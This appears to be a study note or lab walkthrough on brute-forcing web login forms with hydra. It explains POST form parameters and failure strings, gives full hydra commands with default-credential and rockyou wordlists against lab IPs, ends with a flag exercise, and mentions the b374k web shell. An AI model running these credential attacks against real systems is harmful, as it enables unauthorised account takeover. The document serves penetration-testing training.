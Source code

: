 # 👨‍⚖️ Web Forms Brute Forcing

Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly.

Here is a command to see all of the requests we can use in hydra:

```shell-session
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

Here are some `http` modules that are interesting for us:

1. `http[s]-{head|get|post}`
2. `http[s]-post-form`

The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like `.php` or `.aspx` and others.

To decide which module needs to be used, we need to know if the application uses `GET` or a `POST` form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the `URL`, the web application uses a `GET` form. Otherwise, it uses a `POST` form.

Our URL does not change, we know that the web application uses a `POST` form so let's use `http-post-form` module and use the "`-U`" flag to list the parameters it requires

so in our case we need:

* `URL path`, which holds the login form
* `POST parameters` for username/password
* `A failed/success login string`, which lets hydra recognize whether the login attempt was successful

```shell-session
/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]
```

And if we do not see any error message, we can go ahead and specify something from the source code like `<form name='login'`, which should be distinct enough and will probably not exist after a successful login.

So here will be our final request:

```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

to have the parameters we need we can simply go and look at the inspector panel:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This would give us the following POST parameters:

```bash
username=test&password=test
```

Or the copy as curl would give us plenty of informations as well as the parameters we need:

<pre><code><strong>...&#x3C;SNIP>    --data-raw 'username=test&#x26;password=test'
</strong></code></pre>

and of course in burp we can also get those informations:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the final parameters would look something like that:

```bash
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

We can start by looking for default credentials with the `ftp-betterdefaultpasslist.txt`

And so, the FINAL PAYLOAD will come out like this:

```shell-session
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

_**Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>username=admin password=admin</p></figcaption></figure>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 94.237.51.88 -s 52477 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<input name='username'" -V
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
